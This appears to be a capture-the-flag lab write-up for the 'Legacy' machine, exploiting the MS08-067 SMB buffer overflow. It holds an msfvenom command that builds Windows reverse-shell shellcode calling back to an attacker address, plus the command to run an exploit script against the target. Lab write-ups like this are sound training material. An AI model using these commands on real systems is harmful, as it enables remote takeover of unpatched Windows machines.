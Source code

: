 # Legacy - 10.10.10.4
## Windows machine with a buffer overflow on the RPC port
### As described within the link below
```
https://labs.f-secure.com/assets/BlogFiles/hello-ms08-067-my-old-friend.pdf
```

## Overflow.py is a POC to the metasploit module
### Need to create shellcode first with msfvenom =
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
- This creates the shellcode needed for the machine to reach back out to me

### The exploit needs to run as follows
```
python overflow.py 10.10.10.4 7 445

```
- Becuase we are attacking SP3 with always on NX - Trial and error will help  
